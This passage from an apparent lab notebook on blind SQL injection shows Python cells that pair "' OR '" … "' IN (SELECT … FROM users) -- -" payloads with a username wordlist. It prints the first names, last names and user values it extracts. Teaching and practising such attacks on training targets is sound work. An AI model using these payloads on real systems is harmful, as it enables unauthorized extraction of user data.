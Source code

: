     Number of records in users table =  5


#### 5.1 Let's extract the first_name from the users table


```python
wordlist_first_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT first_name FROM users) -- -"

list_of_first_name = send_request_with_wordlist(wordlist_first_name, sql_start, sql_end)
print(list_of_first_name)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    [FOUND] =  Gordon
    [FOUND] =  hack
    [FOUND] =  bob
    ['admin', 'Pablo', 'Gordon', 'hack', 'bob']


#### 5.2 last_name of the users table


```python
wordlist_last_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT last_name FROM users) -- -"

list_of_last_name = send_request_with_wordlist(wordlist_last_name, sql_start, sql_end)
print(list_of_last_name)
```

    [FOUND] =  admin
    [FOUND] =  brown
    [FOUND] =  smith
    [FOUND] =  picasso
    [FOUND] =  me
    ['admin', 'brown', 'smith', 'picasso', 'me']


#### 5.3 User column info


```python
wordlist_user = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT user FROM users) -- -"

list_of_user = send_request_with_wordlist(wordlist_user, sql_start, sql_end)
print(list_of_user)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    ['admin', 'Pablo']

